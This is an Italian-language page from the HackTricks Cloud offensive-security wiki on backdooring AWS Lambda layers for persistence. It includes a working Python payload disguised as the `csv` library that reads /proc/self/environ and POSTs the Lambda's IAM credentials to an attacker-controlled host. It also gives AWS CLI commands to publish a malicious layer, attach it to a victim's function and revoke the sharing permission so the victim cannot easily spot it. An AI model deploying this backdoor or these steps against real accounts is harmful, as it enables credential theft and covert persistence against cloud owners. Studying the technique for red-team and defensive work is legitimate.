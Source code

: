 # AWS - Persistenza delle Lambda Layers

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Lambda Layers

Una Lambda layer è un archivio .zip che **può contenere codice aggiuntivo** o altro contenuto. Una layer può contenere librerie, un [runtime personalizzato](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dati o file di configurazione.

È possibile includere fino a **cinque layers per funzione**. Quando includi una layer in una funzione, i **contenuti vengono estratti nella directory `/opt`** nell'ambiente di esecuzione.

Per **definizione**, le **layers** che crei sono **private** al tuo account AWS. Puoi scegliere di **condividere** una layer con altri account o di **rendere** la layer **pubblica**. Se le tue funzioni consumano una layer pubblicata da un altro account, le tue funzioni possono **continuare a utilizzare la versione della layer dopo che è stata eliminata, o dopo che il tuo permesso di accesso alla layer è stato revocato**. Tuttavia, non puoi creare una nuova funzione o aggiornare funzioni utilizzando una versione di layer eliminata.

Le funzioni distribuite come immagine del contenitore non utilizzano le layers. Invece, impacchetti il tuo runtime preferito, librerie e altre dipendenze nell'immagine del contenitore quando costruisci l'immagine.

### Percorso di caricamento Python

Il percorso di caricamento che Python utilizzerà in lambda è il seguente:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Controlla come le **seconda** e terza **posizione** sono occupate da directory dove i **lambda layers** decomprimono i loro file: **`/opt/python/lib/python3.9/site-packages`** e **`/opt/python`**

{% hint style="danger" %}
Se un attaccante riesce a **backdoor** un **layer** lambda utilizzato o **aggiungerne uno** che eseguirà **codice arbitrario quando una libreria comune viene caricata**, sarà in grado di eseguire codice malevolo con ogni invocazione di lambda.
{% endhint %}

Pertanto, i requisiti sono:

* **Controllare le librerie** che sono **caricate** dal codice delle vittime
* Creare una **libreria proxy con lambda layers** che **eseguirà codice personalizzato** e **caricherà la libreria originale**.

### Librerie pre-caricate

{% hint style="warning" %}
Quando si abusa di questa tecnica ho trovato una difficoltà: Alcune librerie sono **già caricate** nel runtime di python quando il tuo codice viene eseguito. Mi aspettavo di trovare cose come `os` o `sys`, ma **anche la libreria `json` era caricata**.\
Per abusare di questa tecnica di persistenza, il codice deve **caricare una nuova libreria che non è caricata** quando il codice viene eseguito.
{% endhint %}

Con un codice python come questo è possibile ottenere la **lista delle librerie che sono pre-caricate** all'interno del runtime di python in lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
E questa è la **lista** (controlla che librerie come `os` o `json` siano già presenti)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
E questa è la lista delle **librerie** che **lambda include installate per impostazione predefinita**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring del Lambda Layer

In questo esempio supponiamo che il codice target stia importando **`csv`**. Stiamo per **backdooring l'importazione della libreria `csv`**.

Per fare ciò, andremo a **creare la directory csv** con il file **`__init__.py`** al suo interno in un percorso che viene caricato da lambda: **`/opt/python/lib/python3.9/site-packages`**\
Poi, quando il lambda viene eseguito e cerca di caricare **csv**, il nostro **file `__init__.py` verrà caricato ed eseguito**.\
Questo file deve:

* Eseguire il nostro payload
* Caricare la libreria csv originale

Possiamo fare entrambe le cose con:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Poi, crea uno zip con questo codice nel percorso **`python/lib/python3.9/site-packages/__init__.py`** e aggiungilo come un layer lambda.

Puoi trovare questo codice in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Il payload integrato **invierà le credenziali IAM a un server LA PRIMA VOLTA che viene invocato o DOPO un reset del contenitore lambda** (cambio di codice o lambda a freddo), ma **altre tecniche** come le seguenti potrebbero essere integrate:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Layer Esterni

Nota che è possibile utilizzare **layer lambda da account esterni**. Inoltre, un lambda può utilizzare un layer da un account esterno anche se non ha permessi.\
Nota anche che il **numero massimo di layer che un lambda può avere è 5**.

Pertanto, per migliorare la versatilità di questa tecnica, un attaccante potrebbe:

* Backdoor un layer esistente dell'utente (niente è esterno)
* **Creare** un **layer** nel **suo account**, dare accesso all'**account vittima** per utilizzare il layer, **configurare** il **layer** nel Lambda della vittima e **rimuovere il permesso**.
* Il **Lambda** sarà ancora in grado di **utilizzare il layer** e la **vittima non avrà** alcun modo semplice per **scaricare il codice dei layer** (a parte ottenere una rev shell all'interno del lambda)
* La vittima **non vedrà i layer esterni** utilizzati con **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
